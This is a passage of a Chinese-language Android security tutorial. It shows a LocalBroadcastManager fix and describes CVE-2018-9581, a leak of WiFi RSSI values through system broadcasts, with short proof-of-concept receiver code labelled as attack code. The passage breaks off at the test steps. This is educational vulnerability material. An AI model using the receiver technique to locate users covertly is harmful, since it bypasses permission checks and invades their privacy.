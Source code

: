  

**修复：**

 

我们尝试采用本地广播的方式，这样程序发出的广播就只能被 app 自身广播接收器接收

```
Intent intent = new Intent("my-sensitive-event");
intent.putExtra("event","this is a test event");
LocalBroadcastManager.getInstance(this).sendBroadcast(intent);

```

案例 2：[Android 操作系统中通过 RSSI 广播暴露敏感数据 （CVE-2018-9581)](https://wwws.nightwatchcybersecurity.com/2018/11/11/cve-2018-9581/)

 

漏洞详情：

```
    Android操作系统会定期在系统范围内广播WiFI强度值（RSSI）,RSSI值表示设备接收到的信号
的相对强度（更高=更强），但与实际物理强度dBm没有直接关系，这是通过两个独立的intents实现的，Android 9之前是android.net.wifi.STATE_CHANGE，其他安卓设备是android.net.wifi.RSSI_CHANGED
    当应用通过WifiManager访问信息时，正常就在应用manifest中请求ACCESS_WIFI_STATE权限。因为WiFi RTT特征是Android 9中新引入的，也是用于位置定位的，需要ACCESS_FINE_LOCATION权限。但监听系统广播时，
在不需要通知用户，不需要其他权限的情况下就可以获取信息
    存在的安全问题：
    （1）RSSI值是通过广播获取的，绕过的正常的权限检查（ACCESS_WIFI_STATE）
    （2）通过广播或WiFimanager获取的RSSI值可以在不需要其他位置权限的情况下进行室内定制

```

攻击代码：

```
public class MainActivity extends Activity {
@Override
public void onCreate(Bundle state) {
    IntentFilter filter = new IntentFilter();       
    filter.addAction(android.net.wifi.STATE_CHANGE);
    filter.addAction(android.net.wifi.RSSI_CHANGED);
    registerReceiver(receiver, filter);
}
 
BroadcastReceiver receiver = new BroadcastReceiver() {
@Override
public void onReceive(Context context, Intent intent) {
    Log.d(intent.toString());
    ….
}
};

```

测试步骤：
